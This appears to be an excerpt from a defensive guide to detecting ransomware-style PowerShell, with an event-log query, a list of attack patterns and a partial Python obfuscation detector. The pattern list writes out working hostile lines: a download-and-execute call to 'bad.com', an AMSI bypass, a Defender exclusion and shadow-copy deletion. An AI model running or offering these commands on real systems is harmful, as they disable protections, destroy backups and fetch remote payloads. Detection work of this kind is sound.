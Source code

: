 # Check for encoded commands
Get-WinEvent -FilterHashtable @{LogName='Windows PowerShell';ID=400,403,600} |
Where-Object {$_.Message -match "HostApplication.*powershell.*-enc"}
Malicious PowerShell Patterns:
powershell# Common ransomware PowerShell techniques

# 1. Base64 encoded commands
powershell.exe -NoP -NonI -W Hidden -Enc WwBTAHkAcwB0AGUAbQAuAEQA...

# 2. Download and execute
IEX (New-Object Net.WebClient).DownloadString('http://bad.com/payload.ps1')

# 3. Bypass execution policy
powershell.exe -ExecutionPolicy Bypass -File malicious.ps1

# 4. AMSI bypass attempts
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# 5. Defender exclusion additions
Add-MpPreference -ExclusionPath "C:\Windows\Temp"

# 6. Shadow copy deletion
vssadmin delete shadows /all /quiet

# 7. Memory injection
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, $buf.Length)
Advanced PowerShell Detection:
python# Python script to detect obfuscated PowerShell
import re
import base64

def detect_powershell_obfuscation(script_content):
    indicators = {
        'base64': bool(re.search(r'[A-Za-z0-9+/]{50,}={0,2}', script_content)),
        'string_concatenation': script_content.count('+') > 20,
        'backticks': script_content.count('`') > 5,
        'format_operator': bool(re.search(r'-f\s*["\']', script_content)),
        'replace_method': bool(re.search(r'\.replace\(["\']', script_content, re.I)),
        'char_array': bool(re.search(r'\[char\[\]\]', script_content)),
        'byte_array': bool(re.search(r'\[byte\[\]\]', script_content)),
        'compression': bool(re.search(r'IO\.Compression', script_content)),
        'reflection': bool(re.search(r'Reflection\.Assembly', script_content))
    }
    
